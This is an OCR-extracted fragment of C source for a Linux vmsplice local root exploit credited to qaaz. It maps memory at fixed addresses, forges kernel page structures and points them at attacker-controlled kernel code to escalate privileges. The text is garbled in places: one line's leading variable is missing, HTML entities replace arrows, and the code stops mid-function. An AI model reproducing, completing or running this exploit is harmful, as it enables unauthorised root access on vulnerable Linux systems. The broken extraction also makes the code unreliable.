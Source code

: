	uid = getuid();
	gid = getgid();
	setresuid(uid, uid, uid);
	setresgid(gid, gid, gid);

	printf("-----------------------------------\n");
	printf(" Linux vmsplice Local Root Exploit\n");
	printf(" By qaaz\n");
 = mmap(pages[0], map_size, PROT_READ | PROT_WRITE,
	                MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (map_addr == MAP_FAILED)
		die("mmap", errno);

	memset(map_addr, 0, map_size);
	printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);
	printf("[+] page: 0x%lx\n", pages[0]);
	printf("[+] page: 0x%lx\n", pages[1]);

	pages[0]-&gt;flags    = 1 << PG_compound;
	pages[0]-&gt;private  = (unsigned long) pages[0];
	pages[0]-&gt;count    = 1;
	pages[1]-&gt;lru.next = (long) kernel_code;

	/*****/
	pages[2] = *(void **) pages[0];
	pages[3] = pages[2] + 1;

	map_size = PAGE_SIZE;
	map_addr = mmap(pages[2], map_size, PROT_READ | PROT_WRITE,
	                MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (map_addr == MAP_FAILED)
		die("mmap", errno);

	memset(map_addr, 0, map_size);
	printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);
	printf("[+] page: 0x%lx\n", pages[2]);
	printf("[+] page: 0x%lx\n", pages[3]);

	pages[2]-&gt;flags    = 1 << PG_compound;
	pages[2]-&gt;private  = (unsigned long) pages[2];
	pages[2]-&gt;count    = 1;
	pages[3]-&gt;lru.next = (long) kernel_code;

	/*****/
	pages[4] = *(void **) &(int[2]){PAGE_SIZE,0};
	map_size = PAGE_SIZE;
	map_addr = mmap(pages[4], map_size, PROT_READ | PROT_WRITE,
	                MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (map_addr == MAP_FAILED)
		die("mmap", errno);
	memset(map_addr, 0, map_size);
	printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);
	printf("[+] page: 0x%lx\n", pages[4]);

	/*****/
	map_size = (PIPE_BUFFERS * 3 + 2) * PAGE_SIZE;
	map_addr = mmap(NULL, map_size, PROT_READ | PROT_WRITE,
	                MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (map_addr == MAP_FAILED)
		die("mmap", errno);
